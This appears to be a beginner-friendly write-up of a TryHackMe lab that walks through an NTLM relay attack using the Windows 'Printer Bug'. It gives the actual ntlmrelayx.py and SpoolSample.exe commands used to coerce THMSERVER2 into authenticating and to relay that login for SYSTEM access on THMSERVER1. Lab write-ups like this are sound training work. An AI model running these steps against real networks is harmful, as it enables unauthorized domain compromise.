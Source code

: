 You want to **hack into a secure Windows machine (THMSERVER1)**.

But you don’t have passwords or tickets.

So you’ll:

- **Trick another machine (THMSERVER2)** into logging into your machine.
- **Catch that login**, and
- **Use it to log into THMSERVER1** — **as if you were THMSERVER2**.

This is called an **NTLM relay attack** using the **"Printer Bug" trick**.

## 🎯 Why This Works (Real-Life Analogy)

Imagine you’re trying to get into a bank (THMSERVER1).

You don’t have access.

But you know **another trusted employee** (THMSERVER2) can go in.

So:

1. You **trick the employee** into showing their badge to you.
2. You **copy their badge info** quickly,
3. Then **flash it at the bank door** — and boom, you're in. 🏦

## 🪜 Step-by-Step in Baby Terms

### ✅ Step 1: Find Who Can Open the Bank Door

We use a tool called **BloodHound** to ask:

> "Which machine account has admin access to THMSERVER1?"
> 

We run a **custom query** that checks if **Machine A** can **admin** **Machine B**.

In our case:

```
THMSERVER2$ → has admin access on → THMSERVER1
```

Perfect! So we can try using THMSERVER2 to break into THMSERVER1.

### ✅ Step 2: Learn About the “Printer Bug”

Windows machines have a service called **Print Spooler** that handles printers.

The **printer bug** lets us tell a computer:

> "Hey, try to print something over there" — and it’ll try to authenticate (log in).
> 

So we use this bug to tell **THMSERVER2**:

> "Try to print something at my IP address" → it logs in to us.
> 

Now we have its **credentials** (machine account: `THMSERVER2$`).

### ✅ Step 3: Catch the Login and Forward It

We use a tool called `ntlmrelayx.py` that:

- **Listens** for logins
- When it gets one from THMSERVER2
- It **forwards** (relays) that login to THMSERVER1

And since THMSERVER2 is trusted on THMSERVER1… 🎉 we get access.

## 👷 All Conditions That Must Be Met

| # | Requirement | What It Means |
| --- | --- | --- |
| 1 | You have a domain account | ✅ You do — you're already inside the network |
| 2 | You can reach THMSERVER2 over the network | ✅ Yes, confirmed |
| 3 | THMSERVER2 has Print Spooler running | ✅ Checked with PowerShell |
| 4 | SMB signing is not enforced | ✅ Checked with Nmap (not required = exploitable) |

## 💻 What We Actually Run (Step-by-Step)

### 🧪 A) On your **Attacker Box** (your fake server)

Listen and wait for authentication:

```bash
python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://<THMSERVER1-IP> -debug
```

This waits for THMSERVER2 to try to log in.

### 🖨️ B) On THMWRK1 (a machine you control)

Use the `SpoolSample.exe` file to **trigger the printer bug**:

```
SpoolSample.exe thmserver2.za.tryhackme.loc <Your-Attacker-IP>
```

This tells THMSERVER2:

> "Hey, print something over there"
> 

THMSERVER2 responds by logging into you — you catch the credentials ✅

### 🚪 C) Relay to THMSERVER1

Once the relay happens, `ntlmrelayx.py` will automatically:

- Use THMSERVER2’s credentials
- Log into THMSERVER1
- Run your command (example: `whoami /all`)

This proves you now have SYSTEM access on THMSERVER1 🎯
